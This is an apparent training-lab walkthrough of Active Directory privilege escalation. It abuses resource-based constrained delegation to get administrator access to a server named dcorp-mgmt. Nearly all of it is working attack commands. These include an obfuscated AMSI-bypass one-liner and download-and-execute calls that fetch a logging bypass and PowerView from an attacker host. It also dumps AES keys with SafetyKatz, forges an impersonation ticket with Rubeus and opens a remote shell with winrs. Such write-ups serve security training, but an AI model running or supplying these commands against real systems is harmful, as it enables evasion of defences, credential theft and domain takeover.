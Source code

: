 # ✍️ Find Computer in domain with Write permissions and access as Domain Admin

Let's start by using Powerview to enumerate Write permissions for a user that we have compromised. After trying from multiple users or using BloodHound we would know that the user ciadmin has Write permissions on the computer object of dcorp-mgmt ->&#x20;

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
 . .\PowerView.ps1
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>S-1-5-21-719815819-3726368948-3917688648-1121</p></figcaption></figure>

Recall that we compromised ciadmin from dcorp-ci. We can either use the reverse shell we have on dcorp-ci as ciadmin or extract the credentials from dcorp-ci.

{% content-ref url="elevate-privileges-and-gain-a-shell.md" %}
[elevate-privileges-and-gain-a-shell.md](elevate-privileges-and-gain-a-shell.md)
{% endcontent-ref %}

Now on the shell ->

```
iex (iwr http://172.16.100.13:8787/sbloggingbypass.txt -UseBasicParsing)
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.13:8787/PowerView.ps1'))
Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-std613$' -Verbose
Get-DomainRBCD
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
SourceName                 : DCORP-MGMT$
SourceType                 : MACHINE_ACCOUNT
SourceSID                  : S-1-5-21-719815819-3726368948-3917688648-1108
SourceAccountControl       : WORKSTATION_TRUST_ACCOUNT
SourceDistinguishedName    : CN=DCORP-MGMT,OU=Servers,DC=dollarcorp,DC=moneycorp,DC=local
ServicePrincipalName       : {WSMAN/dcorp-mgmt, WSMAN/dcorp-mgmt.dollarcorp.moneycorp.local, TERMSRV/DCORP-MGMT,
                             TERMSRV/dcorp-mgmt.dollarcorp.moneycorp.local...}
DelegatedName              : DCORP-STD613$
DelegatedType              : MACHINE_ACCOUNT
DelegatedSID               : S-1-5-21-719815819-3726368948-3917688648-15112
DelegatedAccountControl    : WORKSTATION_TRUST_ACCOUNT
DelegatedDistinguishedName : CN=DCORP-STD613,OU=StudentMachines,DC=dollarcorp,DC=moneycorp,DC=local
```

Now we need the AES keys of t student VM (as we configured RBCD for it above)

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -Command "sekurlsa::ekeys" "exit"
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>50083fa125e328c8b5333ac2dfc62c3e47eb8f6bc0acf08b1ca15eb35894140e</p></figcaption></figure>

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:dcorp-std613$ /aes256:50083fa125e328c8b5333ac2dfc62c3e47eb8f6bc0acf08b1ca15eb35894140e /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt
```

<figure><img src="../../.gitbook/assets/image (1130).png" alt=""><figcaption></figcaption></figure>

Now that the ticket is imported we can connect via winrs

<figure><img src="../../.gitbook/assets/image (1132).png" alt=""><figcaption></figcaption></figure>

```
winrs -r:dcorp-mgmt cmd
```
